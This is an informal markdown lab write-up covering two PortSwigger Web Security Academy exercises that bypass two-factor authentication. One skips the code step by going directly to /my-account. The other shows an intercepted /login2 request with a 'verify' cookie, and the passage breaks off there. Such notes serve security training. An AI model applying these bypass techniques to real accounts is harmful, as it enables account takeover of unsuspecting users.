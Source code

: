 ## Direct bypass
Fuck the 2FA, just try to access the next endpoint directly (you need to know the path of the next endpoint).


## Ex 1
 
 1. Loging Account use username and password 
 2. Please enter your 4-digit security code 
 
  3. Check The Email and use the code and loging
  4. check the url parameter
  
         https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
         /my-account is end-point
         
 5. loging Vicatm Account and send the 4 digit code 

 6. This is Url in Vicatam account
 
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/login2
        
 7. And add the end-point parameter
 
        /my-account
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
 
 ## Finally Hack The Vicatam Account
 
 ## EX 2 2FA broken logic
 1.loging Account and intercept the request
 
   GET /login2 HTTP/1.1
   Host: acca1fb51e222ae1c096b0ee00130073.web-security-academy.net
   Cookie: verify=wiener; session=BbzscnaCtyy4b69XW8P9Q0JRlqLq8iMU
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Sec-Fetch-Site: same-origin
   Sec-Fetch-Mode: navigate
   Sec-Fetch-User: ?1
   Sec-Fetch-Dest: document
   Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
   Sec-Ch-Ua-Mobile: ?0
   Sec-Ch-Ua-Platform: "Linux"
   Referer: https://acca1fb51e222ae1c096b0ee00130073.web-security-academy.net/login
   Accept-Encoding: gzip, deflate
   Accept-Language: en-US,en;q=0.9
   Connection: close
 
